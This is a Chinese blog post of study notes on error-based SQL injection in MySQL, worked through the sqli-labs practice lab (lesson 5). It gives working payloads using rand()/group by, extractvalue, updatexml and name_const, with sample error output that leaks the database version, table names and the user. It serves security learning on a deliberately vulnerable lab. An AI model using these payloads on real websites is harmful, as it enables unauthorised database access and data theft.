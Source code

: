```yaml
---
title: 基于报错的盲注
toc: true
description: 本文通过 sqli-lib lesson 5 来总结归纳基于报错的盲注。
summary: 本文通过 sqli-lib lesson 5 来总结归纳基于报错的盲注。
categories:
    - websec
    - sql injection
date: 2019-07-27 15:44:25
tags:
---
```


# 基于报错的盲注简介

利用的是 SQL 语句报错从而回显出我们想要的信息。首先我们需要找到一句能够报错的 SQL 语句（即：在 mysql 数据库 cmd 命令行中执行就会报错的语句，比如：double、BigInt 溢出，重复，还有由于 mysql 设计缺陷造成自身的 bug 等）

报错语句各式各样，千奇百怪，你可以自己去找、去发现。当然，也有大神们给我们留下来的一些财富。感觉这一部分说难也难，说简单也简单。难是因为那些报错有时并不好找，甚至大神们找的报错的原理咱也搞不懂，简单是因为可以直接用大神找的可以报错的语句，有的报错原理不懂就不懂了，不影响咱们报错盲注。

下面附上几个链接，供基于报错的盲注使用：

[MYSQL 注入天书之盲注讲解](https://www.cnblogs.com/lcamry/p/5763129.html)

[大神对一种报错方式原理的探究](https://blog.csdn.net/qq_35544379/article/details/77453019)

典型的报错注入语句去上面链接找就行了。

# 已知的报错注入方式

下面只列出几种自己使用 sqli-lib less 5 复现成功的报错注入方式

## mysql Bug 865 rand()和 group by 同时使用

```php
?id=1' union select 1,count(*),concat(0x23,(要查询的语句),0x23,floor(rand(0)*2))a from information_schema.columns group by a --+
```

0x23 为 # 对应 ASCII 码的 16 进制，用来隔离突出你查询的内容，便于你找到. 可以自己去 ASCII 码表找其他的字符更换，建议使用 16 进制，直接使用字符，可能有时候会被过滤掉。

后面那个 from information_schema.columns 从哪个表查没啥意思，主要是需要只用 group by 让其和 rand() 函数一起这样才能报错。

**我们只需要将我们的子查询语句写在上面 “要查询的语句” 的位置即可。**

返回值不能超过 1 行数据，所以如果里面的 select 获取的是多行数据时要加 limit，经测试我们要写子查询中不能含有 count(), group_concat 语句，即：不能计数 和 只能 limit 0,1 一条一条来了。

举例：

查询所有表明

```php
?id=1' union select 1,count(*),concat(0x23,(select schema_name from information_schema.schemata limit 0,1),0x23,floor(rand(0)*2))a from information_schema.tables group by a --+
```

回显：Duplicate entry '#information_schema#1' for key 'group_key'

然后改成 limit 1,1、limit 2,1 等慢慢测试。

## double 类型溢出报错

暂无成功复现的

## BIGINT 溢出报错

暂无成功复现的

## 利用 xpath 函数

MySQL 5.1.5 版本中添加了对 XML 文档进行查询和修改的函数，分别是 extractvalue()和 updatexml()

经测试 mysql 8.0.12 仍存在这两个报错，这两个报错函数，除了后者多一个参数外，很多特征都是相似的，下面的测试，一般来说，对这两个函数都是适用的。

返回值不能超过 1 行数据，所以如果里面的 select 获取的是多行数据时要加 limit，可使用 group_concat 函数。

### extractvalue 报错

函数解释：
　　 extractvalue()：从目标 XML 中返回包含所查询值的字符串。
　　 EXTRACTVALUE (XML_document, XPath_string);
　　第一个参数：XML_document 是 String 格式，为 XML 文档对象的名称
　　第二个参数：XPath_string (Xpath 格式的字符串)

我们通过控制第二个参数进行报错注入，xml 文档中查找字符位置时，应为/xxx/xxx/xxx 这种格式，当第二个参数格式不正确时，就会产生 Xpath 语法错误，并返回我们输入的错误语句的内容。

```php
?id=1' and extractvalue(1,concat(0x7e,(要查询的语句),0x73)) --+
```

0x7e 同样也是用来区分你的查询结果，改成 0x23，即：#也行，但是不要输入英文字符的十六进制，建议 concat 的第一个不要用来查数据，写个字符分开就好。总之，具体自己测试。

concat 可以再多连接我们 select 查询的信息，也可以使用 concat_ws

```php
?id=1' and extractvalue(1,concat_ws(0x23,0x23,(select version()),(select database()))) --+
```

注意：报错回显有字符限制，测试为 32 个字符。

比如：

```php
?id=1' and extractvalue(1,concat_ws(', ',0x23,(select version()),(select database()),(select user()),(select @@datadir))) --+
```

回显

> XPATH syntax error: '#, 5.5.53, security, root@localh'

### updatexml 报错

UPDATEXML (XML_document, XPath_string, new_value);

第一个参数：XML_document 是 String 格式，为 XML 文档对象的名称
第二个参数：XPath_string (Xpath 格式的字符串)
第三个参数：new_value，String 格式，替换查找到的符合条件的数据

报错原理同 extractvalue() 第二个参数路径格式问题。

```php
?id=1' and updatexml(1,concat(0x7e,(你要查询的语句)),1)--+
```

当然，这里的 concat 也可以连接好多个，比如：

```php
?id=1' and updatexml(1,concat(0x7e,(select version()),0x7e,(select database())),1)--+
```

由于有字符个数限制，一般我使用的有下面两种语句，

1. 通过改变 limit 的第一个参数来一条记录查（而不使用 group_concat 将所有连接成一个字符串）

    ```
    ?id=1' and extractvalue(1,concat_ws(0x23,0x23,(select schema_name from information_schema.schemata limit 0,1))) --+
    ```

    回显：

    > XPATH syntax error: '##information_schema,challenges,'

2. 如果比较少，比如查出库/表的个数比较少之后，可以先试试 group_concat 没准表名很多，全显示出来了。当然，group_concat 里面也有 order by 看着来吧。

    比如这里查出表的个数为 4 个

    ```php
    ?id=1' and extractvalue(1,concat_ws(0x23,0x23,(select count(table_name) from information_schema.tables where table_schema=database()))) --+
    ```

    下面先用 group_concat 查一下看看。

    ```php
    ?id=1' and extractvalue(1,concat_ws(0x23,0x23,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1))) --+
    ```

    回显

    > XPATH syntax error: '##emails,referers,uagents,users'

    像这样表名都比较短的话，就都查出来了，具体根据实际情况使用吧。

## mysql 重复特性

```php
?id=1' union select 1,2 from (select name_const(version(),1),name_const(version(),1))x --+
```

前后两个 nameconst 的内容要一样。只能用来查询数据库版本，我测试过 database(),user() 等均未成功。

# 补：limit 函数简介

limit 函数的使用有点忘记了，再回顾一下。

SELECT column1, column2 FROM tbl_name LIMIT offset , count;

1. limit 可以有两个参数，第一个参数是开始位置的偏移，从 0 开始，第二个参数是最多显示的记录条数。

2. limit 也可以有一个参数的简写形式： limit n; 相当于 limit 0,n; 从第一条开始，最多显示 n 条

3. SELECT \* FROM products LIMIT 8 OFFSET 0; (在 mysql 5 以后支持这种写法) ，这个指偏移为：0 位置，即开始位置，最多 8 条数据。和第一种参数顺序相反，与第一种功能相同。

# 总结回顾

1. 目前来看，报错注入最佳的语句便是 XPATH 的两个函数（鉴于第二个函数多一个参数），最好的语句便是 XPATH 的 extractvalue 语句了。

